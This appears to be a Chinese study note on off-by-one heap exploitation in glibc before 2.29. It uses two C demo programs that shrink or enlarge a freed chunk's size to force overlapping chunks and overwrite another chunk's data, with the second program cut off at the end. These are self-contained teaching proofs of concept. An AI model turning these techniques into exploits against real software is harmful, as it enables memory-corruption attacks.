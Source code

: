 不同类型的off by one攻击手法要么free前改size，要么free后改size，但目标一致：制造堆块重叠，可以修改其他堆块的size或者fd指针。
1. 减小释放后chunk的size

![[shrink chunk.png]]
下面是示例加大了b绕过tcache
```c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int main(int argc, char const *argv[])
{
    printf("off by one in glibc <2.29\n");
    char *a=malloc(0x108);
    char *b=malloc(0x500);
    char *c=malloc(0x500);
    //bypss malloc b1 -> unlink check
    *(size_t *)(b+0x4f0)=0x500;
    free(b);
    // overflow to b->size
    *(a+0x108)=0;
    char *b1=malloc(0x410);
    // bypass free(c) -> unlink check
    *(size_t *)(b1+0x408)=0x420;
    char *b2=malloc(0x20);
    strcpy(b2,"please change me!");
    free(b1);
    free(c);
    
    char *evil=malloc(0x500);
    printf("b2:%s\n",b2);
    strcpy(evil+0x420,"hahahahahahaha");
    printf("b2:%s\n",b2);
    return 0;
}
```
2. 增加释放后chunk的size
增加释放后的chunk size，伪造的prev_size就在chunk c中了。其余不变。
```c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int main(int argc, char const *argv[])
{
    printf("off by one in glibc <2.29\n");
    char *a=malloc(0x108);
    char *b=malloc(0x500);
    char *c=malloc(0x500);
    *(size_t *)c=0x520;
    free(b);
    // overflow to b->size
    *(a+0x108)=0x20;
    char *b1=malloc(0x410);
    // bypass free(c) -> unlink check
    *(size_t *)(b1+0x408)=0x420;
    char *b2=malloc(0x20);
    strcpy(b2,"please change me!");
    free(b1);
    free(c);
    
    char *evil=malloc(0x500);
    printf("b2:%s\n",b2);
    strcpy(evil+0x420,"hahahahahahaha");
    printf("b2:%s\n",b2);
    return 0;
```